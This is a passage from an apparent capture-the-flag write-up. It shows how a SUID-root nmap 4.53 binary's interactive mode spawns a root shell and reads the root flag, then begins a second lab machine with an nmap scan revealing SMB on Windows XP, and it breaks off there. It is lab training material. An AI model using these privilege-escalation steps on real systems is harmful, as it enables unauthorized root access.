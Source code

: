 /usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
</pre>

Most of the programs here are builtins, and thus unlikely to be easy targets - but `nmap` isn't.

Who is the owner, and are we able to execute it?

<pre>
<kw>$</kw> ls -l /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap 
</pre>

What version is it?

<pre>
<kw>$</kw> nmap --version
Nmap version 4.53 ( http://insecure.org )
</pre>

As it turns out, old versions of `nmap` allowed users to execute commands via an interactive mode. We can use this mode to spawn a shell with the same privileges as the owner of the program, in this case root.

<pre>
<kw>$</kw> nmap --interactive
Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h &lt;enter&gt; for help
<kw>nmap></kw> !sh
<kw>$</kw> whoami
root
<kw>$</kw> cat /root/root.txt
</pre>

### [](#header-3)LEGACY

As usual, we start with an nmap scan:

<pre>
<kw>root@kali:~</kw># nmap -sV 10.10.10.4
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.10.10.4
Host is up (0.087s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
</pre>

It's fairly clear that we're going to be exploiting SMB. We can use a metasploit module to get detailed information about the host:
